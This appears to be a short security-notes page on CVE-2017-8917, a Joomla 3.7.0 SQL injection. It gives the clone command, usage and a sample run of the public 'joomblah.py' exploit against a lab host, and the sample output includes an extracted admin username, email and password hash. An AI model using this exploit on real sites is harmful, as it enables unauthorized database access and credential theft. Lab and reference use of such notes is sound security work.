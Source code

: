 # CVE-2017-8917

CVE-2017-8917 - SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah

SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors.

## Installation

- [joomblah.py](../assets/files/joomblah.py)

```bash
git clone https://github.com/stefanlucas/Exploit-Joomla.git
```

## Usage

```bash
joomblah.py [-h] url
```

## Flags

```bash
Jooma Exploit

positional arguments:
  url         Base URL for Joomla site

optional arguments:
  -h, --help  show this help message and exit
```

## Examples

```bash
$ python joomblah.py http://10.10.181.117/

    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

## References

- [Github.com - Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla)
